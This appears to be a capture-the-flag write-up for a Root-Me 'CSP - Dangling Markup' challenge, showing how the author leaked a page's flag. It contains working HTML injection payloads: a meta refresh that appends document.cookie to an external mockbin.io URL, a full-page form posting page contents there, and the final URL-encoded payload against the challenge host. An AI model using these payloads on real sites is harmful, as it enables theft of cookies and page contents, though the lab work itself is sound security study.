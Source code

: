 # CSP - Dangling Markup

## Initial Attempt

Tried this payload from the hacktricks blog

```html
<meta http-equiv="refresh" content="4; URL=https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/'+document.cookie+'?
```

Problem: Dynamic state partitioning is enabled. More on this [here](https://developer.mozilla.org/en-US/docs/Web/Privacy/Storage_Access_Policy/Errors/CookiePartitionedForeign)
Then I realised we don't have to get the cookie, just the flag, so need to find a way to exfiltrate the entire content of the entire page.

Tried this payload

```html
<form action=https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/><input type=submit style="position:absolute;left:0;top:0;width:100%;height:100%;" type=submit value=""><textarea name=contents>
```

## Solution

I realised there were double quotes in the next divs class names, hence we need to avoid using that in the payload. So I used a single quote thins time and it worked.

```javascript
<meta http-equiv="refresh" content='4; URL=https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/
```

Payload

```text
http://challenge01.root-me.org:58029/page?user=%3Cmeta+http-equiv%3D%22refresh%22+content%3D%271%3B+URL%3Dhttps%3A%2F%2Fb5e02d613ca44b7384e0290125a1448e.api.mockbin.io%2F
```

## References

- [Hacktricks: Dangling markup scriptless injection](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)
- [Portswigger: Dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)
